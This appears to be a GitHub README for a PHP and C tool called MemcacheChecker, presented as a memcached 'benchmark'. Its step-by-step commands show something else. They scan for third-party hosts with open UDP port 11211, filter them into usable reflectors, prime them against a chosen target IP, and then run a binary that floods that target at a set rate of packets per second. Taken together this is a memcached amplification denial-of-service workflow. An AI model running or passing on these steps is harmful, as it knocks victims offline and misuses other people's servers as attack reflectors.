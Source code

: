 # MemcacheChecker
MemcacheStatusRespondChecker and MemcacheChecker and setup for a Memcache based Server\/Network benchmark.

## dependencies
[php-memecahed, php-cli, libmemcached, libpthread]

# How to use it?
You need a list of IP that opened udp port 11211;

php MemcacheStatusRespondChecker.php full_list.input respond.out 10 100;
php MemcacheChecker.php respond.out full_function.out 10 100;

We filtered IPs to full_function.out

php setup.php [target_ip] full_function.out setup.ready 1 100;
./memc [target_ip] 11211 setup.ready [threads] [packet_per_second] [time];
php setup.php [target_ip] setup.ready noting 0 100;
rm respond.out full_function.out setup.ready;

